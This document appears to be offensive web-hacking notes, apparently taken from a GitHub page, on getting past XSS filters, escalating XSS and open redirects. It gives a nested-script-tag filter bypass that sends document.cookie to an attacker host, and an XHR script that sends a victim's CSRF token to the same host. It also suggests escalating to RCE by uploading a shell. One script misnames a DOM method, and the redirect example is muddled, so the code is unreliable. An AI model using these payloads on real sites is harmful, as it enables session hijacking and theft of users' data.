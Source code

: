 ## Filter Logic Errors ##

Sometimes the filter eliminates once the dangerous payload, you can bypass it like this

```
<scrip<script>t>
location='http://attacker_server_ip/c='+document.cookie;
</scrip</script>t>
```
And then the result will be like this:

```
<script>location='http://attacker_server_ip/c='+document.cookie;</script>
```

OWASP bypass techniques 

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## Escalating the Attack ##

###### Some affect the server they are critical:

The XSS can affect system administrators and allow attackers to take over their sessions. Since the affected users are accounts of high privilege

You might gain access to customer data, internal files, and API keys. You might even escalate the attack into RCE by uploading a shell or execute scripts as the admin.

###### Users

Most of the time, XSS can be used to read sensitive information on the victim’s page.
This means that you can use XSS to steal data and escalate your attack from there.
This can be done by running a script that sends the data back to you.
For example: 
If you can steal a user’s CSRF tokens, you can execute actions on their behalf by using
those tokens to bypass CSRF protection on the site.

Script
```
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null);
```

# OPEN REDIRECTS #

##### ON THE URL BOWSER

When you try to see something without credentials you're redirected to the login site for example.
```
https://attacker.com/dashboard=https://example.com/login?redirect
```
